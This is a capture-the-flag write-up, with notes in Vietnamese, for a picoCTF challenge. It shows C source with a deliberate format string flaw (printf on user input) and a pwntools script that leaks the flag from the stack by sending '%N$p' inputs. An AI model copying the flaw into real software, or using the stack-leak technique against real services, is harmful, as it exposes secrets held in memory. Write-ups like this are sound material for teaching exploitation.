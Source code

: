 # flag leak

## Description

Story telling class 1/2.I'm just copying and pasting with this program. What can go wrong? You can view source here.

## source code

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```

## checksec

```terminal
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## solution

Để ý sẽ thấy chương trình bị dính format string `printf(story)`. Trước đó hàm readflag đã được gọi, flag vẫn còn trong stack. Mình viết 1 script leak stack.

```python
#!python3
from pwn import *

for i in range(1,50):
    #connect saturn.picoctf.net 57669
    r = remote('saturn.picoctf.net', 65296)
    r.recv()
    r.sendline(b'%'+str(i).encode()+b'$p')
    a = r.recv().decode()[20:]
    try:
        print(bytearray.fromhex(a).decode()[::-1])
    except:
        next

    r.close()
```

![flag](flag.png)